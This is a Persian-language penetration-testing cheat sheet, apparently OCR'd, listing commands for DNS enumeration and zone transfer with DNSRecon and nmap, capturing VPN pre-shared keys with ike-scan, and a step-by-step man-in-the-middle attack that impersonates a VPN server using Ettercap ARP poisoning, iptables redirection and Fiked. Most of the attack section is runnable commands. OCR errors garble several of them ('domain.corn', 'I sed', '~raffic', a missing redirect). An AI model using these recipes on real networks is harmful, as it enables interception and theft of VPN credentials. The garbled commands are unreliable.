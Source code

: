 ### دستور DNSRecon

```text
Reverse lookup for IP range:
./dnsrecon.rb -t rvs -i 192.1.1.1,192.1.1.20
Retrieve standard DNS records:
./dnsrecon.rb -t std -d domain.corn
Enumerate subdornains:
./dnsrecon.rb -t brt -d domain.corn -w hosts.txt
DNS zone transfer:
./dnsrecon -d domain.corn -t axfr
```

### عملیات reverse dns lookup و بررسی خروجی با nmap

```text
nmap -R -sL -Pn -dns-servers dns svr ip range | awk '{if( ($1" "$2"
"$3)=="Nmap scan report")print$5" "$6}' | sed 's/(//g' I sed 's/)//g'
dns.txt
```

## VPN

### نوشتن psk بر روی فایل

```text
ike-scan -M -A vpn ip -P file
```

### حمله به سرور vpn

```text
ike-scan -A -t 1 --sourceip= spoof ip dst ip
```

### Fiked - ایجاد سرور vpn تقلبی

```text
Must know the VPN group name a~d pre-shared key;
1. Ettercap filter to drop IPSEC traffic (UDP port 500)
   if(ip.proto == UDP && udp.scc == 500) {
      kill();
      drop();
      msg (" UDP packet dropped ") ;
2. Compile filter
   etterfilter udpdrop.filter -o udpdrop.ef
3. Start Ettercap and drop all IPSEC ~raffic
   #ettercap -T -g -M arp -F udpdrop.ef // //
4. Enable IP Forward
   echo "1" /proc/sys/net/ipv4/ip_forward
5. Configure IPtables to port forward to Fiked server
    iptables -t nat -A PREROUTING -p udp -I eth0 -d VPN Server IP -j
   DNAT - - to Attacking Host IP
    iptables -P FORWARD ACCEP~
6. Start Fiked to impersonate the VPN Server
   fiked - g vpn gatewa; ip - k VPN Group Name:Group Pre-Shared Ke;
7. Stop Ettercap
8. Restart Ettercap without the filter
   ettercap -T -M arp II II
```
